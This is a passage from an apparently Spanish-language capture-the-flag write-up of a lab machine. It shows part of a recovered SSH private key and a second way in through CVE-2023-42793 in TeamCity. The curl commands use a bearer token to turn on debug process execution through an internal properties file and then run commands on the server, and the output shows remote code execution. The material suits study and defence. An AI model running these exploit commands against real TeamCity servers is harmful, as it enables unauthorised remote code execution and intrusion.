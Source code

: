 ```bash
PSZUw2mwwZ47pIzY6NI45mr6iK6FexDAPQzbe5i8gO15oGIV9MDVrprjTJtP+Vy9kxejkR
3np1+WO8+Qn2E189HvG+q554GQyXMwCedj39OY71DphY60j61BtNBGJ4S+3TBXExmY4Rtg
lcZW00VkIbF7BuCEQyqRwDXjAk4pjrnhdJQAfaDz/jV5o/cAAAAMEAugPWcJovbtQt5Ui9
WQaNCX1J3RJka0P9WG4Kp677ZzjXV7tNufurVzPurrxyTUMboY6iUA1JRsu1fWZ3fTGiN/
TxCwfxouMs0obpgxlTjJdKNfprIX7ViVrzRgvJAOM/9WixaWgk7ScoBssZdkKyr2GgjVeE
7jZoobYGmV2bbIDkLtYCvThrbhK6RxUhOiidaN7i1/f1LHIQiA4+lBbdv26XiWOw+prjp2
EKJATR8rOQgt3xHr+exgkGwLc72Q61AAAAwQDO2j6MT3aEEbtgIPDnj24W0xm/r+c3LBW0
axTWDMGzuA9dg6YZoUrzLWcSU8cBd+iMvulqkyaGud83H3C17DWLKAztz7pGhT8mrWy5Ox
KzxjsB7irPtZxWmBUcFHbCrOekiR56G2MUCqQkYfn6sJ2v0/Rp6PZHNScdXTMDEl10qtAW
QHkfhxGO8gimrAvjruuarpItDzr4QcADDQ5HTU8PSe/J2KL3PY7i4zWw9+/CyPd0t9yB5M
KgK8c9z2ecgZsAAAALam9obkBydW5uZXI=
```

Bingo.... Tenemos una clave privada id_rsa para entrar por ssh y ejecutar comandos, muy bien... ya llegamos hasta esta parte... ahora voy a explicar otra manera para conseguir RCE en la maquina.... nos vamos a aprovechar de un endpoint de teamcity.

### Intrusion Via Web Metodo 2

Para este metodo el post [CVE-2023-42793](https://attackerkb.com/topics/1XEEEkGHzt/cve-2023-42793/rapid7-analysis) nos indica que tenemos que habilitar el modo debug para conseguir RCE

```bash
curl -s -X POST "http://teamcity.runner.htb/app/rest/debug/processes?exePath=id" -H 'Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.YnJ6SzVjU0l0UmZYWFZtMld3emI4X2NwdTFZ.NTNhNzM2YTUtN2I1NS00M2VkLWIyNDEtOWNkMTkyOGM0NDA2' 
Responding with error, status code: 400 (Bad Request).
Details: jetbrains.buildServer.server.rest.errors.BadRequestException: This server is not configured to allow process debug launch via "rest.debug.processes.enable" internal property
Invalid request. Please check the request URL and data are correct.
```

nos tira ese error porque todavia no habilitamos el modo debug, asi que vamos a hacerlo

```bash
curl -X POST 'http://teamcity.runner.htb/admin/dataDir.html?action=edit&fileName=config%2Finternal.properties&content=rest.debug.processes.enable=true' -H 'Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.YnJ6SzVjU0l0UmZYWFZtMld3emI4X2NwdTFZ.NTNhNzM2YTUtN2I1NS00M2VkLWIyNDEtOWNkMTkyOGM0NDA2'
```

bien, ahora la parte final es volver a ejecutar el primer comando que realizamos

```bash
curl -s -X POST "http://teamcity.runner.htb/app/rest/debug/processes?exePath=id" -H 'Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.YnJ6SzVjU0l0UmZYWFZtMld3emI4X2NwdTFZ.NTNhNzM2YTUtN2I1NS00M2VkLWIyNDEtOWNkMTkyOGM0NDA2'
StdOut:uid=1000(tcuser) gid=1000(tcuser) groups=1000(tcuser)

StdErr: 
Exit code: 0
Time: 27ms
```

aclaro que este token es el primero que me dio teamcity a la hora de crear mi usuario con privilegios maximos si necesitan volver a generarlo en la explicacion del PoC explico como borrar el token y por logica crear otro. Yo prefiero obtener una shell por SSH porque es mas comodo la TTY.
